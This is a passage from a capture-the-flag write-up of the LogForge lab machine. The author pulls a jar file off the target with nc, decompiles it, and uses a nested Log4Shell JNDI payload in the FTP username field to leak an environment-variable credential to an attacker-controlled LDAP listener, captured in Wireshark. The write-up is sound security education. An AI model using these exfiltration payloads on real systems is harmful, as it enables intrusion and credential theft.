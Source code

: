 I tried using ysoserial again but none of the gadgets worked. I noticed that the source code `ftpServer-1.0-SNAPSHOT-all.jar` was in the root directory so I transferred it to kali to take a look

#### Logforge

```
tomcat@LogForge:/$ nc KALI 9001 < ftpServer-1.0-SNAPSHOT-all.jar
```

#### Kali

```
┌──(root💀kali)-[~/htb/logforge]
└─# nc -lvnp 9001 > ftpServer.jar                                                                                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 40102
```

Now I can use `jd-gui` to pick apart this code.

It looks like it it storing the username and password in a environment variable. I can use the log4shell vulnerability to extract the variables. 
![Logforge](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/logforge/5.png)

To do this we are going to edit our original payload and add a nested JDNI payload to extract the username and password. The JNDI exploit kit wont be able to catch the results but wireshark will. (make sure the JNDI server is still running)

First I created my nested payload `${jndi:ldap://KALI:1389/${env:ftp_user}}`
Then I started up wireshark and started to listen on tun0
Then I put my payload into the username of the ftp server (because its vulnerable)
After I went into wireshark and put on the filter `tcp.port == 1389` to view the request
And looking at the tcp stream I can see that the username is "ippsec"
![Logforge](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/logforge/6.png)
